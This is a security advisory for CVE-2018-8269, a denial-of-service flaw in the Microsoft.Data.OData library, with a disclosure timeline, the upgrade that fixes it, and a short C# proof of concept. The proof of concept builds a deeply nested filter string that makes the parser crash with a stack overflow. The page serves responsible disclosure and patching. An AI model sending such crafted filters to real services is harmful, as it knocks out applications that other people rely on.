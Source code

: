 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-04-22'
      arg: 'Microsoft Security Response Center'
    - type: 'report'
      date: '2018-06-27'
      arg: 'Remote attack vector'
    - type: 'patch'
      date: '2018-08-14'
      url: 'https://www.nuget.org/packages/Microsoft.Data.OData/5.8.4'
    - type: 'cve-assign'
      date: '2018-09-11'
    - type: 'release'
      date: '2018-10-22'

product: Microsoft.Data.OData
vulnerable: 
    - 'version 5.8.3 and below'
mitigation: 'Upgrade to version 5.8.4'

severity: 'high'
alephid: ALEPH-2018001
cve: CVE-2018-8269
date: '2018-10-22'
references:
    - src: 'Microsoft.Data.OData version 5.8.3'
      url: 'https://www.nuget.org/packages/Microsoft.Data.OData/5.8.3'
    - src: 'OData Denial of Service Vulnerability'
      url: 'https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8269'
  
title: 'OData Denial of Service Vulnerability'

---
```

The library Microsoft.Data.OData is used for handling OData V1-3 requests.

It is used by many applications and services that expose OData API, including `SharePoint Server` and `Azure Active Directory Graph API`. 
it has ~ 30,000,000 downloads in Nuget (.NET package manager).

A core functionality of the library is parsing an OData filter. 

Parsing a crafted OData filter using this library, results in deep recursion which leads to Stack Overflow exception and crash of the hosting process.

An application that uses this library to provide OData API might be vulnerable to DOS attack. An attacker can shut down the application remotely by sending a crafted request few times.

Information about the exploitation of the vulnerability can be found in our [blog post](/2018/09/13/StackOverflowException/).


## Proof Of Concept ##
The following program demonstrates how a crafted filter can be used to initiate StackOverflowException
```c
using System.Linq;
using Microsoft.Data.Edm.Library;
using Microsoft.Data.OData.Query;
using Microsoft.Data.OData.Query.SemanticAst;
namespace TestOdata
{
    class Program
    {
        static void Main(string[] args)
        {
            EdmModel model = new EdmModel();
            var customer = new EdmEntityType("TestModel", "TestModel");
	     
            //Generate the filter – "1 add 1 add 1 add 1 add ......"
            string filter = string.Concat(Enumerable.Repeat("1 add ", 11200)) + "1";

            //Following function will throw StackOverflowException
            FilterClause filter = ODataUriParser.ParseFilter(filter, model, customer);
        }
    }
}
```
